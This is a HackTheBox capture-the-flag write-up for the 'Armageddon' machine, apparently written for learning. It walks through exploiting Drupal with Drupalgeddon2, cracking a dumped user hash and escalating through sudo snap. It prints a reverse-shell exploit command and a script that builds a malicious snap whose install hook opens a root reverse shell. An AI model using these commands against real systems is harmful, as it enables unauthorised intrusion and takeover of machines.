# Armageddon HackTheBox Writeup
### Level: `Easy` | OS: `Linux`


## Scanning
We run nmap on all ports with scripts and software versions.



## Enumeration
We access the web resource, we find a website designed in Drupal (as we had previously seen in nmap).



We list the deployed version of Drupal, an attacker would manage to list public exploits to abuse vulnerabilities in this version.



## Exploitation
Here is a news from ["HackPlayers"](https://www.hackplayers.com/2018/04/llega-drupalgeddon2-rce-inyectando-en-arrays.html) where they talk about the vulnerability and the affected versions.

#####  Exploit: [drupalgeddon2](https://raw.githubusercontent.com/lorddemon/drupalgeddon2/master/drupalgeddon2.py)

### PoC



### Reverse shell code
``` bash
python drupalgeddon2.py -h http://10.10.10.233 -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```


We review the "*settings.php*" file and list the database credentials. This is highly recommended, as there is a possibility of password reuse.



So, we list the users and try the password, but it doesn't work.



We dump the DDBB data and find the hash of the Drupal user "*brucetherealadmin*".



### Cracking hash
We crack the hash with **john** and **rockyou** dictionary and get the credentials in plain text.



We access by **SSH** and read the flag of "*user.txt*".




## Privilege Escalation
We run the command "sudo -l", we see that we can install snaps as the root user.

We search for information on Google, we see that we can create a malicious snap package and run it as the user with elevated privileges.

### PoC


Great, we could read the "*root.txt*" file directly, but we would not be squeezing the most out of the machine.

So, we'll use the following lines to *create a malicious snap package* to give us a reverse shell on our kali.

```bash
COMMAND='bash -i >& /dev/tcp/10.10.14.15/555 0>&1'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/bash\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n m3n0s -s dir -t snap -a all meta
```

We set up a *python server* on our kali and transfer the file with **curl**. Now we run **snap** with **sudo**, wait to receive our reverse shell as root and read the root flag.



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)